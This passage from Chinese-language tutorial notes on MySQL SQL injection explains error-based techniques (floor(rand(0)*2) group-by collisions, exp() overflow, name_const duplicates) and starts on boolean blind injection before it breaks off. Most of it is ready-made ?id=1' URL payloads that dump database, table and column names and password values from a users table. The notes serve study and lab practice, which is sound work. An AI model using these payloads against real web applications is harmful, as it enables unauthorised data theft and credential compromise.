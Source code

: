 ###### floor()

&emsp;&emsp;`select count(*), floor(rand(0)*2) x from xxx group by x;` ，rand(0) 将产生 0~1 的随机数，rand(0)\*2 将产生 0~2 的随机数，floor(rand(0)\*2) 将得到 0 或 1 。floor() 报错注入的本质是 group by 语句的报错，group by 语句报错的原因是 floor(rand(0)*2) 的不确定性，即可能为 0 或 1 。

&emsp;&emsp;group by key 执行时，将依次读取数据表的每一行，将结果保存于临时表中。读取每一行的 key 时，如果 key 存在于临时表中，则更新临时表中的数据（更新数据时，不再计算rand值）；如果 key 不存在于临时表中，则在临时表中插入 key 所在行的数据（插入数据时，会再计算rand 值）。例如，临时表只有 key 为 1 的行不存在 key 为 0 的行，那么数据库要将该条记录插入临时表，由于是随机数，插时要计算一下随机值，此时 floor(rand(0)*2) 的结果可能为 1，就会导致插入时冲突而报错。

- `?id=1' union select 1,count(*),concat((select database()),0x7e,floor(rand(0)*2)) a from information_schema.schemata group by a--+`：爆库名
- `?id=1' union select 1,count(*),concat((select table_name from information_schema.tables where table_schema='xxx' limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆表名
- `?id=1' union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='xxx' and table_name='xxx' limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆列名
- `?id=1' union select 1,count(*),concat((select password from security.users limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆值

###### 数据溢出

&emsp;&emsp;前提：MySQL 版本 5.5~5.5.49，此时数据超出 DOUBLE 才会报错，同时会返回查询信息，而不是像这样：

![](picture/13.png)

&emsp;&emsp;前置知识：

- exp(x)：返回 e 的 x 次方计算结果
- 如果一个查询成功执行，则其返回值为 0
- ~0 将得到 18 446 744 073 709 551 615 ，无符号 BIGINT 范围 (0，18 446 744 073 709 551 615) 。

&emsp;&emsp;所以构造 payload 如 `?id=1' and exp(~(select * from (select database())x))--+`

###### 查询重复

`?id=1' union select 1,2,3 from (select name_const(version(),1),name_const(version(),1)) x --+`

##### <<布尔注入

###### ?id=1' and left(@@version,1)=N--+

&emsp;&emsp;猜数据库版本。

###### ?id=1' and length(database())=N--+

&emsp;&emsp;猜库名长度，可引入二分法。

###### ?id=1' and left(database(),1)>'a'--+、?id=1' and left(database(),2)>'sa'--+
